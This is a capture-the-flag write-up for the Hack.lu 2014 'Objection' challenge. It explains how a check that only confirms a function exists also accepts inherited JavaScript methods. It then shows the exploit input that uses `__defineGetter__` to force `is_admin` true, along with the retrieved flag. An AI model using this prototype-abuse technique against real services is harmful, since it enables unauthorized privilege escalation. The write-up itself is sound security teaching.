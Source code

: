```yaml
---
layout: post
title: "Objection"
date: 2014-10-23
ctf: Hack.lu 2014
author: Break
---
```


## Description

This guard talks a weird dialect. And why does he talk in such a complicated way? [Download](http://afnom.net/assets/2014/objection_4966674d17ff296939c0e3dfccfe87ed.co)

nc wildwildweb.fluxfingers.net 1408

## Solution

We were able to translate the code into JavaScript using LiveScript: [objection.js](http://afnom.net/assets/2014/objection.js)

When looking at the code, the following line is vulnerable.

{% highlight js %}
if (typeof client_context[funcname] !== 'function') {
        return con.write("error: unknown function " + funcname + "\n");
}
{% endhighlight %}

It only checks if the function `funcname` exists. But this also includes inherited functions
of the object `client_context` like e. g. `toString()`.

We, therefore, tried to redefine functions using `eval()`, lamdba-functions, `__defineSetter__`
and succeeded with `__defineGetter__`.

`__defineGetter__(name, function)` overwrites a label with a function and makes it into a getter.
The resulting "function" can be used as a normal variable:

{% highlight js %}
var finite = {}
finite.__defineGetter__("monkeys", function(){return "monkeys rock!";}
console.log(finite.monkeys) //notice the missing brackets - not: finite.monkeys()
//prints "monkeys rock!" to the console
{% endhighlight %}


The only problem is that we do not control the second parameter. The function is
given in the code:

{% highlight js %}
client_context[funcname](args, function(it){
        return con.write(it + "\n");
});
{% endhighlight %}

But, since it usually succeeds to write to the connection, it returns true!

So we used `__defineGetter__` to overwrite the variable `is_admin` in order to gain admin
privileges.

{% highlight js %}
hello!
__defineGetter__ is_admin
get_token
undefined
The current token is flag{real_cowboys_dont_use_object_create_null}
{% endhighlight %}

`__defineGetter__ is_admin` overwrites the variable `is_admin` with a getter which uses the
next argument - here: `function(it){return con.write(it + "\n");}` - and always returns true.

The flag was afterwards retrieved for 150+80 points using `get_token`.

(joint work Chris, Mike)